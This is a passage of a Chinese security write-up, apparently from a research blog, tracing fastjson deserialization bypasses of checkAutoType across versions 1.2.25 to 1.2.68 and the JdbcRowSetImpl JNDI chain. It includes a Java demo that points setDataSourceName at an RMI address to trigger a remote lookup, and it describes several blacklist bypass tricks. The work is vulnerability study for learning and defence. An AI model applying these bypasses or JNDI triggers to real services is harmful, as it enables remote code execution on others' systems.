首先，代码中的`if`语句判断当前解析器的状态是否为`TypeNameRedirect`，如果是，则进入`if`语句块中进行进一步的解析。在`if`语句块中，首先将解析器的状态设置为`NONE`，然后使用`parser.accept(JSONToken.COMMA)`方法接受一个逗号`Token`，以便后续的解析器对其进行处理。接下来，使用`lexer.token()`方法判断下一个`Token`的类型，如果是一个字符串，则进入 if 语句块中进行进一步的判断。在 if 语句块中，使用`lexer.stringVal()`方法获取当前`Token`的字符串值，并与`val`进行比较。如果不相等，则抛出一个`JSON`异常；如果相等，则使用`lexer.nextToken()`方法将`lexer`的指针指向下一个`Token`，然后使用`parser.accept(JSONToken.COLON)`方法接受一个冒号`Token`，以便后续的解析器对其进行处理。最后，使用`parser.parse()`方法解析当前`Token`，并将解析结果赋值给`objVal`。如果当前`Token`不是一个对象的结束符（右花括号），则使用`parser.accept(JSONToken.RBRACE)`方法接受一个右花括号`Token`，以便后续的解析器对其进行处理。如果当前解析器的状态不是`TypeNameRedirect`，则直接使用`parser.parse()`方法解析当前`Token`，并将解析结果赋值给`objVal`。  
根据之前分析的，`objVal`会传给`strVal`，然后`TypeUtils.loadClass`在执行的过程中，会把`strVal`放到`mappings`缓存中。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170516-b0a80d02-ba97-1.jpeg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170516-b1095616-ba97-1.jpeg)  
加载到缓存中以后，在下一次`checkAutoType`的时候，直接就返回了，绕过了检验的部分直接执行：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170517-b1820660-ba97-1.jpeg)

#### ②第二种 poc

第二种`poc`的绕过手法在上面的“黑白名单机制介绍”中已经写的很清楚了，直接参考即可。  
需要注意的是，由于代码是循环去掉`L`和`;`的，所以我们不一定只在头尾各加一个`L`和`;`。  
由于 1.2.25 的代码中有如下代码：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170518-b222c1fe-ba97-1.jpeg)  
因此我们可以构造如下`poc`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124182557-f652bfb8-baa2-1.jpeg)

也可以绕过：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170519-b2c9feec-ba97-1.jpeg)

### （4）关于 JdbcRowSetImpl 链利用的分析

从上面我们学习了绕过黑白名单的学习，接下来看`JdbcRowSetImpl`利用链的原理。  
根据`FastJson`反序列化漏洞原理，`FastJson`将`JSON`字符串反序列化到指定的`Java`类时，会调用目标类的`getter`、`setter`等方法。`JdbcRowSetImpl`类的`setAutoCommit()`会调用`connect()`方法，`connect()`函数如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170520-b37167fe-ba97-1.jpeg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170521-b3ea9174-ba97-1.jpeg)  
我们把这段代码单独拿出来分析：

```plain
private Connection connect() throws SQLException {
    if (this.conn != null) {
        return this.conn;
    } else if (this.getDataSourceName() != null) {
        try {
            InitialContext var1 = new InitialContext();
            DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
            return this.getUsername() != null && !this.getUsername().equals("") ? var2.getConnection(this.getUsername(), this.getPassword()) : var2.getConnection();
        } catch (NamingException var3) {
            throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
        }
    } else {
        return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
    }
}
```

一眼就看到了两行异常熟悉的代码：

```plain
InitialContext var1 = new InitialContext();
DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
```

我们可以通过一个简单的小`demo`快速了解：

```plain
package org.example;
import com.sun.rowset.JdbcRowSetImpl;

public class Main {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl JdbcRowSetImpl_inc = new JdbcRowSetImpl();
        JdbcRowSetImpl_inc.setDataSourceName("rmi://127.0.0.1:1099/ift2ty");
        JdbcRowSetImpl_inc.setAutoCommit(true);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170522-b4684c72-ba97-1.jpeg)  
所以之前的两种`poc`可以直接自定义`uri`利用成功。

## 3\. fastjson 1.2.42 反序列化漏洞

首先先下载`fastjson 1.2.25`：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>fastjson_1_2_42</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.42</version>
        </dependency>
    </dependencies>

</project>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170523-b4c2f4c4-ba97-1.jpeg)  
直接翻到`ParseConfig`这里：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170523-b535e8b2-ba97-1.jpeg)  
可以看到，`fastjson`把原来的明文黑名单转换为`Hash`黑名单，但是并没什么用，目前已经被爆出来了大部分，具体可以参考：

> [https://github.com/LeadroyaL/fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)

然后`checkAutoType`这里进行判断，仅仅是把原来的`L`和`;`换成了`hash`的形式：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170524-b593bcd0-ba97-1.jpeg)  
所以直接双写`L`和`;`即可：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124182558-f6e801f4-baa2-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170525-b60d5ae0-ba97-1.jpeg)

## 4\. fastjson 1.2.43 反序列化漏洞

修改之前的`pom.xml`里面的版本为`1.2.43`。  
直接全局搜索`checkAutoType`，看修改后的代码：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170525-b6751c84-ba97-1.jpeg)  
意思就是说如果出现连续的两个`L`，就报错。那么问题来了，你也妹对`[`进行限制啊，直接绕：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124182559-f7773a86-baa2-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170526-b6dab4fe-ba97-1.jpeg)

## 5\. fastjson 1.2.44 mappings 缓存导致反序列化漏洞

修改之前的`pom.xml`里面的版本为`1.2.44`。  
这个版本的`fastjson`总算是修复了之前的关于字符串处理绕过黑名单的问题，但是存在之前完美在说`fastjson 1.2.25`版本的第一种`poc`的那个通过`mappings`缓存绕过`checkAutoType`的漏洞，复现如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124182600-f8056e0a-baa2-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170527-b74712fc-ba97-1.jpeg)

## 6\. fastjson 1.2.47 mappings 缓存导致反序列化漏洞

原理同上，`payload`也同上。复现截图：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170528-b7b641a4-ba97-1.jpeg)

## 7.fastjson 1.2.68 反序列化漏洞

`fastjson 1.2.47`的时候爆出来的这个缓存的漏洞很严重，官方在`1.2.48`的时候就进行了限制。  
我们修改上面的`pom.xml`中`fastjson`版本为`1.2.68`。  
直接翻到`MiscCodec`这里，可以发现，`cache`这里默认设置成了`false`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170528-b8236ff4-ba97-1.jpeg)  
并且`loadClass`重载方法的默认的调用改为不缓存：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170529-b87fc5d8-ba97-1.jpeg)  
`fastjson 1.2.68`的一个亮点就是更新了个`safeMode`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170530-b904e722-ba97-1.jpeg)  
如果开启了`safeMode`，那么`autoType`就会被完全禁止。  
但是，这个版本有了个新的绕过方式：`expectClass`。  
仔细看`checkAutoType`函数：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170530-b97842d0-ba97-1.jpeg)

> 以下条件的整理参考：[https://blog.csdn.net/mole\_exp/article/details/122315526](https://blog.csdn.net/mole_exp/article/details/122315526)

发现同时满足以下条件的时候，可以绕过`checkAutoType`：

-   `expectClass`不为`null`，且不等于`Object.class`、`Serializable.class`、`Cloneable.class`、`Closeable.class`、`EventListener.class`、`Iterable.class`、`Collection.class`；
-   `expectClass`需要在缓存集合`TypeUtils#mappings`中；
-   `expectClass`和`typeName`都不在黑名单中；
-   `typeName`不是`ClassLoader`、`DataSource`、`RowSet`的子类；
-   `typeName`是`expectClass`的子类。

这个`expectClass`并不是什么陌生的新名词，我们在前置知识里面的`demo`中的这个`Person.class`就是期望类：

```plain
Person person2 = JSON.parseObject(jsonString2, Person.class);
```

但是之前的那些`payload`执行的时候，期望类这里都是`null`，那么是哪些地方调用了呢？我们直接全局搜索`parser.getConfig().checkAutoType`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170531-b9b7542a-ba97-1.jpeg)  
一个是`JavaBeanDeserializer`的`deserialze`这里：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170532-ba20c27a-ba97-1.jpeg)  
另一个是`ThrowableDeserializer`的`deserialze`这里：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170532-baaba836-ba97-1.jpeg) 具体的分析可以看`tr1ple`师傅的文章，写的实在是太详细了：

> [https://www.cnblogs.com/tr1ple/p/13489260.html](https://www.cnblogs.com/tr1ple/p/13489260.html)

# 四、参考与致谢

我在学习`fastjson`漏洞的时候，阅读参考了以下文章，每篇文章都或多或少地给予了我帮助与启发，于是在此一并列出！也十分感谢`4ra1n`师傅和`su18`师傅热情地回答我一个`Java`初学者提出的可能有点傻的问题。（笑）

```plain
https://www.anquanke.com/post/id/248892
https://paper.seebug.org/1698/
https://www.mi1k7ea.com/2019/11/03/Fastjson系列一——反序列化漏洞基本原理/
https://www.rc.sb/fastjson/
https://drops.blbana.cc/2020/04/16/Fastjson-JdbcRowSetImpl利用链/
https://blog.weik1.top/2021/09/08/Fastjson 反序列化历史漏洞分析/
http://blog.topsec.com.cn/fastjson-1-2-24反序列化漏洞深度分析/
https://xz.aliyun.com/t/7107
https://www.javasec.org/java-vuls/FastJson.html
https://www.freebuf.com/articles/web/265904.html
https://b1ue.cn/archives/506.html
http://xxlegend.com/2017/04/29/title- fastjson 远程反序列化 poc 的构造和分析/
https://forum.butian.net/share/1092
https://www.freebuf.com/vuls/178012.html
https://www.cnblogs.com/nice0e3/p/14776043.html
https://www.cnblogs.com/nice0e3/p/14601670.html
http://140.143.242.46/blog/024.html
https://paper.seebug.org/994/
https://paper.seebug.org/1192/
http://xxlegend.com/2017/12/06/基于JdbcRowSetImpl的Fastjson RCE PoC 构造与分析/
https://zhuanlan.zhihu.com/p/544463507
https://jfrog.com/blog/cve-2022-25845-analyzing-the-fastjson-auto-type-bypass-rce-vulnerability/
https://www.anquanke.com/post/id/240446
https://yaklang.io/products/article/yakit-technical-study/fast-Json/
https://su18.org/post/fastjson/#2-fastjson-1225
https://cloud.tencent.com/developer/article/1957185
https://yaklang.io/products/article/yakit-technical-study/fast-Json
https://developer.aliyun.com/article/842073
http://wjlshare.com/archives/1526
https://xz.aliyun.com/t/9052#toc-16
https://blog.csdn.net/Adminxe/article/details/105918000
https://blog.csdn.net/q20010619/article/details/123155767
https://xz.aliyun.com/t/7027#toc-3
https://xz.aliyun.com/t/7027#toc-5
https://www.sec-in.com/article/950
https://xz.aliyun.com/t/7027#toc-14
https://www.cnblogs.com/nice0e3/p/14776043.html#1225-1241-绕过
https://www.cnblogs.com/nice0e3/p/14776043.html#1225版本修复
https://y4er.com/posts/fastjson-1.2.80/#回顾fastjson历史漏洞
https://github.com/su18/hack-fastjson-1.2.80
https://blog.csdn.net/mole_exp/article/details/122315526
https://www.cnblogs.com/ph4nt0mer/p/13065373.html
https://alewong.github.io/2020/09/14/Fastjson-1-2-68版本反序列化漏洞分析篇/
https://kingx.me/Exploit-FastJson-Without-Reverse-Connect.html
https://www.anquanke.com/post/id/225439
```
